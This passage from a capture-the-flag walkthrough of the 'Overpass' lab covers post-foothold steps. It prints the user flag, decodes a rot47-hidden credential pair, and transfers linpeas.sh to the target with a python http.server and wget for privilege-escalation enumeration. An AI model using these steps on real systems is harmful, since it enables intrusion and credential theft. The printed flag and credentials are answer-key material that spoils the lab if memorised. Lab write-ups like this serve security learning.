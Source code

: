 
```

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/14.png)

and we are in. so the get the user flag we can just list the files in the current directory and then we can find the ***user.txt*** file which can be viewed using the following command.

```cat user.txt```

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/15.png)

***FLAG***: ```thm{65c1aaf000506e56996822c6281e6bf7}```

we have now successfully gained our first flag.

now in the same directory we can see a ```todo.txt```.

lets ```cat``` out the content.

```cat todo.txt```

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/16.png)

## Pivilege Escalation

ifwe attempt to view our files in our current directory, we can see that we have a hidden file called ```.overpass```. 

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/17.png)


let's cat out the content of the file.

```cat .overpass```

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/18.png)

so we can copy that and try to identify what encryption format that is.

***encryption***: ```,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.```

to identify the encrytion format, we can use use https://dcode.fr to do that.

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/19.png)

the encryption is rot47. we can decrypt using this same site.

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/20.png)

```
[{"name":"System","pass":"saydrawnlyingpicture"}]
```
so we can see that we have a username and password.

## Enumeration with Linpeas

we can start a python server on our local machine which would enable us to transfer linpeas file over to the target machine.

```
python3 -m http.server 9000
wget http://<ip_address>:9000/linpeas.sh
```

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/21.png)
```